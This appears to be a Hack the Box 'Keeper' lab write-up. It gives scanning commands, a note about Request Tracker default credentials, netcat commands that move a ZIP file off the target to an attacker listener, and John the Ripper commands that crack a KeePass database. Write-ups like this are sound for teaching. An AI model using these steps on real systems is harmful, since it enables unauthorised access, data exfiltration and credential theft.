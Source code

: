 # Hack the Box - Keeper

```
rustscan -a 10.10.11.227 -r 0-65535 --ulimit 5000 
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/66939215-b494-486c-91cf-c24c5845167d)

```
nmap -sV -sC -A --min-rate 1000 10.10.11.227 -p 22,80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d9b95b35-fff7-471f-9257-09aa865cc3f9)

## HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f306fea0-644b-4415-b2d4-d5a5041ce776)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad643d0d-40bb-45e9-96a4-922da6d26d45)

Request Tracker Default Credentials
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cf2f5581-c7de-4cb1-8f59-a469adf05737)

Dashboard
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/bc5655f3-6405-4a33-a712-a8941dcafc80)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4bb08dfa-b361-4be2-8d75-66e7c7f6f7c7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/22b263dc-63ec-49df-baf0-d33b2a0af87c)

SSH
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b612ec6c-ad5c-4eab-8ffe-1278d26e3cf9)

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f50378d9-1cdc-4a82-9759-03579c745ba9)

Sending the ZIP file:
```
nc -N 10.10.14.61 9090 < RT30000.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/93b150a1-152b-40f1-aa39-af4065c1e762)

Receiving the ZIP file:
```
nc -l -p 9090 > keeper.zip
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8b230c17-acee-4527-9086-cb9e3185991a)

Unzip:
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/8ec9d78e-9d40-4420-b4cb-517a8f99204b)
```
Cracking KeePass Database:
```
keepass2john passcodes.kdbx > passcodes.hash
```
john --wordlist=/usr/share/wordlists/rockyou.txt passcodes.hash
```

